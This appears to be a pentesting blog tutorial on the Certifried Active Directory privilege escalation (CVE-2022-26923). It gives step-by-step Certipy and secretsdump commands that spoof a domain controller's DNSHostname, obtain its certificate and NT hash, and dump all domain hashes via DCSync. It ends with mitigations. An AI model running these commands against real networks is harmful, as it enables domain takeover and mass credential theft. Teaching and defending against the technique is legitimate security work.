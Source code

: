 ```yaml
---
layout: post
title:  "AD Pentesting | Domain Privesc - Certifried (CVE-2022-26923)"
---
```


![Certifried-diagram](/assets/Certifried/Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer. They are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
4. The certificates they generate **allow for authentication.**
5. *When generating a certificate for a computer object*, the computer template will check that computer's `DNSHostname` property and **will generate the certificate based on it**.
6. **Meaning:** *if the computer's* `DNSHostname` *is a Domain Controller's,* you will get a certificate for that **Domain Controller!**
7. *By default,* **any authenticated user** can join up to 10 computers to the domain.
8. *When a user joins a computer to the domain,* he will have the permission to modify that computer's `DNSHostname` property.
9. *Combining the points above,* any authenticated user can add a computer to the domain and alter its `DNSHostname` to that of a **Domain Controller** and get a certificate as that domain controller.
10. *With that certificate,* the user *can obtain* the computer account's **NTLM** hash which can be used to *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. [Certipy](https://github.com/ly4k/Certipy)
2. [Impacket](https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](/assets/Certifried/dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](/assets/Certifried/kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](/assets/Certifried/normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname
**Command:** `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](/assets/Certifried/creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](/assets/Certifried/proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first obtain the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating.

![finding-out-the-ca-name](/assets/Certifried/finding-out-the-ca-name.jpg)

**Command:** `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`

Password = the same password generated from the computer creation in the previous step

![requesting-dc-cert](/assets/Certifried/requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
**Command:** `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](/assets/Certifried/got-nt-hash-for-dc.jpg)

## 4. Performing DCsync As The Impersonated Domain Controller
**Command:** `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](/assets/Certifried/dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft [here](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all [here](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Oliver Lyak](https://twitter.com/ly4k_) who discovered, reported and explained the vulnerability [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) as well as created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D